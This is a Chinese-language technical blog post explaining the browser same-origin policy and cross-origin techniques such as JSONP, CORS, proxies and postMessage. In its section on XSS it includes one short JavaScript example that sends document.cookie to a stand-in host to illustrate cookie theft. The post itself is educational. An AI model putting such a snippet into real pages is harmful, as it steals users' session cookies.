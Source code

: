 ```yaml
---
title: 浏览器为何限制跨域访问？
categories:
 - Browser
tags:
 - 浏览器安全
 - 跨域
 - 同源策略
 - Same Origin Policy
 - JSONP
 - CORS
 - 代理
date: 2022-10-09
sidebar: 'auto'
---
```


## 前言
假如页面没有安全策略：
* Web是开放的，任何资源可以介入，自己网站可以加载并执行他人网站的脚本文件、图片、音视频等资源，甚至下载其他站点的可执行文件。
* 页面上行为没有任何限制造成无序混沌的局面、不可控。

打开一个银行站点，又打开一个恶意站点，恶意站点将可以做很多事情：
* 修改银行站点的DOM、CSSOM等信息；
* 在银行站点内部插入JavaScript脚本；
* 劫持用户登录的用户名和密码；
* 读取银行站点的Cookie、IndexDB等数据；
* 将信息上传至自己的服务器，伪造转账请求；

**没有安全策略的Web，我们是没有隐私的，所以需要安全策略来保障隐私和数据的安全。**<br/>
:::tip
页面中最基础、最核心的安全策略：同源策略（Same-origin policy）。
::: 

## 同源策略
两个URL => 协议（http）、域名（mobs.fun）、端口（80）相同 => URL同源。<br/>
浏览器默认同源之间可以**相互访问资源和操作DOM**，不同源之间若想要相互访问资源或者操作DOM，会有**一套基础的安全策略的制约**（同源策略）。<br/>
同源策略三个层面：
1. DOM层面 => 同源策略限制了不同源的JavaScript脚本对当前站点DOM对象读和写的操作。
2. 数据层面 => 同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。无法通过第二个页面的[opener](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/opener)来访问第一个页面中的Cookie、IndexDB、LocalStorage等数据。
3. 网络层面 => 同源策略限制了通过[XMLHttpRequest](../javascript/XMLHttpRequest.html)等方式将站点的数据发送给不同源的站点。

## 安全性和便利性的权衡
同源策略隔离了不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>
但是安全性和便利性是相互对立的，不同的源之间绝对隔离，可以说是最安全的措施，但这会让Web项目变得难以开发和使用。所以需要做出权衡，**出让一些安全性来满足灵活性。**<br/>
浏览器出让的同源策略的安全性有哪些：
1. 页面中可以嵌入第三方资源
2. 跨域资源共享
3. 跨文档消息机制

### 页面中可以嵌入第三方资源
同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上。这其实违背了Web的初衷，也带来了很多限制。比如我们需要引用不同CDN上的资源，域名其实是不同的，我们是需要同源策略支持页面任意引用外部文件，所以最初的浏览器都是支持引用外部资源文件的。<br/>
**JSONP跨域：**
* 只支持GET请求（script标签src限制get请求），利用了浏览器支持加载外部JavaScript资源文件时不受同源策略的限制。
* 需要服务端和前端配合。
```js
var newscript = document.createElement('script');
newscript.src = 'https://mobs.fun?callback=fn'
document.body.appendChild(newscript);
// 定义fn函数
function fn(data) {
  console.log(data);
}
// 服务端
// 监听请求参数callback，返回response资源 => fn({'服务端数据'})
// 返回的fn({'服务端数据'})作为JS脚本直接执行
```
**带来的弊端：**
* HTML文件注入恶意JavaScript脚本
* XSS攻击
```js
function onClick(){
 // 恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部。
 // 当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。
 let url = `http://test.com?cookie=${document.cookie}`
 open(url)
}
onClick()
```
解决XSS攻击，浏览器中引入了[内容安全策略](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)（CSP），CSP的核心思想是**让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码**。

### 跨域资源共享（CORS）
一般情况，通过XMLHttpRequest or Fetch来请求其他站点的资源，同源策略会阻止向其发出请求。为了解决这个问题，引入了[跨域资源共享](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS)（Cross-Origin Resource Sharing），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。<br/>
* 传输HTTP头构成CORS。
* HTTP头决定浏览器是否能够跨域请求数据。
* 服务端增加HTTP头即可构成CORS。

实现：CORS将请求分为简单请求（Simple Requests）和预检请求（Preflighted requests）
1. [简单请求](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS) => GET、HEAD、POST<br/>
   * Accept
   * Accept-Language
   * Content-Language
   * Content-Type => application/x-www-form-urlencoded、multipart/form-data、text/plain
2. [预检请求](https://developer.mozilla.org/zh-CN/docs/Glossary/Preflight_request) => **可能对服务器数据产生副作用的HTTP请求方法**，浏览器会先自动向服务端发送一个OPTIONS请求，根据服务端返回的Access-Control-Allow-*判定是否允许发起实际的HTTP请求，在预检请求的返回中，服务器端也可通知客户端是否需要携带身份凭证（Cookies、HTTP认证相关数据）<br/>
   * Access-Control-Allow-Origin
   * Access-Control-Allow-Methods
   * Access-Control-Allow-Headers
   * Access-Control-Allow-Credentials

当请求的响应头符合上述条件，浏览器才发送并响应请求。
:::tip
Access-Control-Allow-Origin设置为*其实意义不大形同虚设，实际上线一般会将Access-Control-Allow-Origin值设为目标主机地址Host。
:::

### Proxy代理
代理（Proxy）也称网络代理：**允许一个客户端通过这个网络代理服务与另一个网络终端进行非直接的连接**。一些网关、路由器等网络设备支持网络代理。一般认为代理服务有利于保障网络终端的隐私安全，防止攻击。
:::tip
核心 => 借助同源的服务器去发送请求（请求代理转发），将跨域请求转换成同源请求。
:::
页面请求所在同域的服务器 => 服务器向目标服务器请求数据 => 返回给前端页面。
1. 配置Nginx实现代理
```json
server {
    listen  80;
    location /api {
      # 转发代理的目标服务器  
      proxy_pass  http://127.0.0.1:3000;
    }
}
```
2. 本地开发代理
借助webpack开启一个本地服务器作为代理服务器，借助代理服务器去请求目标服务器，结果转发回前端。<br/>
PS：**最终发布上线时如果web应用和接口服务器不在一起仍会跨域**。
```js
module.exports = {
    devServer: {
        host: '127.0.0.1',
        port: 8080,
        proxy: {
            // 告诉node，url前面是/api就使用代理
            '/api': { 
                // 目标服务器
                target: "http://xxx.xxx.xx.xx", 
                // 是否跨域
                changeOrigin: true,
                // 把实际Request Url中的/api用" "代替
                pathRewrite: { 
                    '^/api': " " 
                }
            }
        }
    }
}
// 配置axios发送请求的根路径
axios.defaults.baseURL = '/api'
```
### 跨文档消息机制
同源策略下，如果两个页面不同源的，则无法相互操纵DOM。实际情况下，经常需要两个不同源的DOM之间进行通信，所以浏览器中又引入了跨文档消息机制，可以通过JavaScript接口[window.postMessage](https://developer.mozilla.org/zh-CN/docs/Web/API/Window/postMessage)来进行不同源的DOM通信。

## 总结
* 同源策略隔离不同源的DOM、数据、网络通信，实现Web页面的安全性。<br/>

目前在安全性和便利性权衡下的安全策略特点：
1. 页面可以引用第三方资源 => 暴露了很多安全问题（XSS攻击）=> 在此基础上引入了CSP来限制其自由程度。 
2. 使用XMLHttpRequest和Fetch是无法直接进行跨域请求的 => 浏览器在其基础上引入了**跨域资源共享策略**，让其安全地进行跨域操作。
3. 两个不同源的DOM不能相互操纵 => 浏览器中实现了**跨文档消息机制**让其安全地通信。
4. JSONP、请求代理等方案实现跨域。
